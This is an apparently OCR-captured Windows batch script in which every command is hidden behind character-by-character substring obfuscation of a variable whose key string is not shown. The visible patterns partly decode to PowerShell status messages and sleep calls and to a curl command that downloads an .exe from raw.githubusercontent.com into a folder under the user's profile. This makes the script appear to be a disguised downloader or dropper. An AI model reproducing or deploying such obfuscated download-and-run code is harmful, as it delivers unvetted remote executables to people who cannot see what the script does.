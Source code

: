 %Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~44,1%%Keyp:~27,1%%Keyp:~58,1%%Keyp:~38,1% %Keyp:~4,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~38,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%%Keyp:~61,1%%Keyp:~39,1% %Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~48,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% -%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%%Keyp:~25,1%%Keyp:~58,1%%Keyp:~38,1%%Keyp:~23,1% "%Keyp:~48,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1%-%Keyp:~48,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~61,1%%Keyp:~40,1% -%Keyp:~13,1% %Keyp:~45,1%"
%Keyp:~22,1%%Keyp:~7,1%%Keyp:~39,1%%Keyp:~20,1% %Keyp:~49,1%%Keyp:~32,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~13,1%://%Keyp:~39,1%%Keyp:~58,1%%Keyp:~14,1%.%Keyp:~15,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~49,1%%Keyp:~7,1%%Keyp:~46,1%%Keyp:~7,1%%Keyp:~13,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~22,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~32,1%.%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%/%Keyp:~11,1%%Keyp:~42,1%%Keyp:~44,1%%Keyp:~3,1%%Keyp:~26,1%%Keyp:~31,1%%Keyp:~34,1%%Keyp:~34,1%/%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%-%Keyp:~60,1%%Keyp:~25,1%%Keyp:~40,1%%Keyp:~58,1%%Keyp:~22,1%%Keyp:~32,1%-%Keyp:~6,1%%Keyp:~51,1%%Keyp:~60,1%%Keyp:~38,1%-%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%/%Keyp:~25,1%%Keyp:~58,1%%Keyp:~60,1%%Keyp:~38,1%/%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%/%Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~48,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1% --%Keyp:~51,1%%Keyp:~7,1%%Keyp:~32,1%%Keyp:~40,1%%Keyp:~7,1%%Keyp:~32,1% %%Keyp:~31,1%%Keyp:~48,1%%Keyp:~52,1%%Keyp:~41,1%%Keyp:~42,1%%Keyp:~41,1%%Keyp:~28,1%%Keyp:~26,1%%Keyp:~37,1%%Keyp:~34,1%%Keyp:~52,1%%\%Keyp:~4,1%%Keyp:~61,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~32,1%%Keyp:~51,1%%Keyp:~40,1%\%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%_%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%_%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%\%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%\%Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~48,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1%
%Keyp:~22,1%%Keyp:~20,1%%Keyp:~13,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% -%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%%Keyp:~25,1%%Keyp:~58,1%%Keyp:~38,1%%Keyp:~23,1% "%Keyp:~48,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1%-%Keyp:~48,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~61,1%%Keyp:~40,1% -%Keyp:~13,1% %Keyp:~2,1%"
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~50,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~14,1% %Keyp:~44,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1% %Keyp:~26,1%%Keyp:~51,1%%Keyp:~20,1%%Keyp:~23,1%%Keyp:~61,1%%Keyp:~39,1% \%Keyp:~4,1%%Keyp:~61,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~32,1%%Keyp:~51,1%%Keyp:~40,1%\%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%_%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%_%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~44,1%%Keyp:~27,1%%Keyp:~58,1%%Keyp:~38,1% %Keyp:~4,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~38,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%%Keyp:~61,1%%Keyp:~39,1% %Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~48,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~54,1%%Keyp:~39,1%%Keyp:~61,1%%Keyp:~61,1%%Keyp:~38,1% %Keyp:~4,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~38,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%%Keyp:~61,1%%Keyp:~39,1% %Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~48,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1% %Keyp:~26,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~60,1%%Keyp:~13,1%%Keyp:~49,1%